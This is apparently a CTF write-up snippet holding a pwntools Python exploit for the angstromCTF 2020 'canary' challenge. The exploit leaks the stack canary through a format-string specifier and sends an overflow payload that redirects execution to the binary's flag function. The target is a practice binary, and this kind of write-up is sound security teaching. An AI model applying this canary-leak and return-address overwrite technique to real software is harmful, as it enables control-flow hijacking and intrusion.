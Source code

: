 <br>
Finished exploit:

{% highlight python %}
from pwn import *
from struct import pack
import sys

# for canary challenge angstrom 2020

# leak = '%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx'

context.arch='amd64'
#sh = process("./canary")
sh = remote("shell.actf.co",20701)

#p = lambda x : pack("<QQ",x)
canary =''
leak = "%17$llp" # %p appends '0x' which doesnt break pwntools packing

offset = "A"*56
padding = "A"*8
flag = p64(0x0000000000400787)
main = p64(0x0000000000400957)

sh.recvuntil("name? ")
sh.sendline(leak)
cookie = sh.recvuntil("!")
# recieve the canary
cookie = cookie.split(", ")[1]
print("[?] Canary:"+cookie[:len(cookie)-1])
# parse the canary
canary = cookie[2:len(cookie)-1].decode("hex")[::-1]
print("[?] Canary redone")
print(canary)

payload = ''
payload += offset
payload += canary
payload += padding
payload += main
payload += flag

sh.recvuntil("me? ")
sh.sendline(payload)
print("[?] Payload sent")
print("[?] Recall main(), flag()")
print("[?] Enter through process") # since i call main(), just need the func to exit gracefully.
#sh.recvall()
sh.interactive()
{% endhighlight %}
